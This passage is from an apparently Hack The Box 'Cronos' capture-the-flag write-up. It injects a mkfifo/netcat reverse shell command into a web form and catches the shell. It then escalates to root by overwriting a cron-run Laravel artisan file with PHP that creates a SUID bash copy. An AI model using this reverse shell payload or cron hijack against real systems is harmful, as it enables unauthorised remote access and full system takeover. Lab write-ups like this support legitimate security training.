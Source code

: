 By putting `; rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.XX.XX 1337 >/tmp/f` and pressing `Execute!`, we will receive a connection as `www-data`.

```bash
$ rlwrap nc -lvnp 1337                          
listening on [any] 1337 ...
connect to [10.10.XX.XX] from (UNKNOWN) [10.10.10.13] 40626
/bin/sh: 0: can't access tty; job control turned off
$ python -c "import pty; pty.spawn('/bin/bash')"
www-data@cronos:/var/www/admin$  id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

# user.txt

The user flag is stored in the home directory of `noulis`.

```bash
www-data@cronos:/var/www/admin$ cat /home/noulis/user.txt
51d2XXXXXXXXXXXXXXXXXXXXXXXXXXXX
```

# Enumeration (2)

If we check `/etc/crontab`, we see that there is one listed task which runs as `root`!

```bash
www-data@cronos:/var/www/admin$ cat /etc/crontab
...
* * * * *       root    php /var/www/laravel/artisan schedule:run >> /dev/null 2>&1
```

The file `/var/www/laravel/artisan` is executed by `root` using `php` at every minute. If we check the permissions of that file, we see that we own it and we can modify it!

```bash
www-data@cronos:/var/www/admin$ ls -al /var/www/laravel/artisan
-rwxr-xr-x 1 www-data www-data 1646 Apr  9  2017 /var/www/laravel/artisan
```

# Exploitation (2)

Instead of modifying `artisan` to establish another reverse shell, we just make a `SUID` copy of `/bin/bash`. 

```bash
www-data@cronos:/var/www/admin$ echo '<?php passthru("cp /bin/bash /tmp/rootbash; chown root:root /tmp/rootbash; chmod +s /tmp/rootbash") ?>' > /var/www/laravel/artisan
```

After a while, we should see a `rootbash` in `/tmp` with the `SUID` bit set.

```bash
www-data@cronos:/var/www/admin$ ls -al /tmp/rootbash
-rwsr-sr-x 1 root root 1037528 Jan 13 10:48 /tmp/rootbash
```
